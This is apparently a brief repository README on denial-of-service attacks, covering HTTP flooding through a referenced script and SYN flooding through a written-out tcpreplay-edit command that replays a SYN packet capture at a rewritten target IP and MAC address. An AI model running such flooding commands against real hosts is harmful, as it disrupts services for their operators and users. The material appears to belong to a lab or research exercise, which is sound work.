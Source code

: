 # Denial of Service (DoS)

We focus on two types of DoS attacks.

* HTTP Flooding
* SYN Flooding

## HTTP Flooding

We simply use `http_flooding.py` to conduct our attack.

## SYN Flooding

```bash
$ sudo tcpreplay-edit --srcipmap=10.0.0.2:10.200.64.115 --destipmap=10.120.0.2:172.20.10.4 --enet-smac=88:66:5a:31:43:51 --enet-dmac=C0:2C:5C:2E:FE:6A --loop=1 en0 ./SYN.pcap
```

